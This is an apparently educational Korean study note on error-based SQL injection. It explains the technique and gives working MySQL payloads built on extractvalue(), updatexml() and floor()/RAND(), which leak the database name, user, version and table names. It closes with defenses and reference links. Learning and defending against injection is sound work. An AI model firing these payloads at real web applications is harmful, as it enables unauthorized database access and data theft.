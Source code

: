 # 에러 기반 SQL 인젝션 (Error-based SQL Injection)

`Error-based SQL Injection`은 **데이터베이스가 발생시키는 오류 메시지를 이용**하여 내부 정보를 추출하는 기법이다. 이 방식은 쿼리에 오류를 유발시켜, 그 오류 메시지에 포함된 데이터를 기반으로 공격자가 시스템 구조나 테이블 정보를 알아내는 데 사용된다.

에러 기반 SQLi는 명확한 피드백이 존재하기 때문에 추출 속도가 빠르고 상대적으로 단순한 편이지만, 최근 보안 설정에서는 **에러 메시지를 숨기는 경우가 많아** 제한적인 환경에서만 유효할 수 있다.

---

## 특징

* 응용 프로그램이 DB 오류 메시지를 사용자에게 그대로 반환할 때 사용 가능
* **빠르고 직관적**인 정보 추출이 가능
* 정보가 에러 메시지 내에 **직접 노출**됨

---

## 공격 방식

공격자는 쿼리의 일부로 **오류를 유도**하는 함수를 삽입하고, 그 결과로 나타나는 오류 메시지를 통해 데이터를 추출한다. 대표적으로 `extractvalue()`, `updatexml()`, `floor()` 등의 함수가 사용된다.

---

## DBMS 별 주요 기법

| DBMS           | 주요 함수 / 기법                                                                             |
| -------------- | -------------------------------------------------------------------------------------- |
| **MySQL**      | `extractvalue()`, `updatexml()`, `floor()`, `geometrycollection()` 등으로 에러를 발생시켜 정보 노출  |
| **MSSQL**      | `convert()`, `cast()`, `openquery()`, `raiserror()` 등을 이용한 타입 변환 또는 강제 오류 유도           |
| **Oracle**     | `to_number()`, `utl_inaddr.get_host_address()`, `dbms_xdb_version.checkin()` 등으로 에러 발생 |
| **PostgreSQL** | `to_number()`, 잘못된 타입 변환 등                                                             |

---

## MySQL 예시

### 1. `extractvalue()` 함수 활용

```sql
' AND extractvalue(1, concat(0x7e, (SELECT database()), 0x7e)) -- 
```

* XML 경로 오류를 발생시키면서 DB 이름이 오류 메시지에 출력됨

### 2. `updatexml()` 함수 활용

```sql
' AND updatexml(NULL, concat(0x7e, (SELECT user()), 0x7e), NULL) --
```

* XML 업데이트 중 경로 오류 발생 시 사용자 정보가 오류 메시지로 출력

### 3. `floor()` 함수 활용

```sql
' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT((SELECT version()), FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x) y) --
```

* `GROUP BY` 와 `RAND()` 를 활용하여 중복된 키 발생 시도 → 에러 메시지 유도

---

## 페이로드 예시

| 목적          | 페이로드 예시                                                                                                                                                                            |
| ----------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 현재 DB 이름 추출 | `' AND extractvalue(1, concat(0x7e, database(), 0x7e)) --`                                                                                                                         |
| 현재 사용자 확인   | `' AND updatexml(NULL, concat(0x7e, user(), 0x7e), NULL) --`                                                                                                                       |
| DB 버전 확인    | `' AND extractvalue(1, concat(0x7e, @@version, 0x7e)) --`                                                                                                                          |
| 테이블명 유도     | `' AND updatexml(NULL, concat(0x7e, (SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1), 0x7e), NULL) --`                                   |
| 중복 키 에러 이용  | `' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT((SELECT table_name FROM information_schema.tables LIMIT 0,1), FLOOR(RAND(0)*2)) a FROM information_schema.tables GROUP BY a) b) --` |

---

## 대응 방안

* **오류 메시지 숨기기**: 실제 운영환경에서는 오류 메시지를 사용자에게 보여주지 않아야 함
* **Prepared Statement 사용**: 파라미터를 분리하여 쿼리 자체에 직접 사용자 입력이 포함되지 않도록 설계
* **화이트리스트 기반 필터링**: 허용된 입력값만 통과시키는 검증 방법 적용
* **웹 방화벽(WAF) 사용**: 공격 패턴 탐지 및 차단

---

## 정리

> Error-based SQL Injection은 시스템이 반환하는 **에러 메시지를 그대로 노출**할 경우 강력하고 빠르게 정보를 추출할 수 있는 인젝션 방식이다.

> 그러나 많은 시스템이 기본적으로 에러 메시지를 숨기고 있어 점차 사용이 제한되고 있으며, `Blind SQL Injection`과 함께 병행되거나 사전 확인용으로 많이 활용된다.

> 보안을 강화하려면 **오류 메시지 관리**, **입력값 검증**, 그리고 **Prepared Statement 사용**은 필수적이다.

## 참고 사이트
>[SegaFalut Academy](https://academy.segfaulthub.com/ "nomaltic 해킹 강의")

[NetSPI](https://sqlwiki.netspi.com/injectionTypes/errorBased/#mysql "Error 기반 SQL 인젝션")

[Oracle](https://pentestmonkey.net/cheat-sheet/sql-injection/oracle-sql-injection-cheat-sheet "Oracle SQL Injection Cheat Sheet")

<hr />
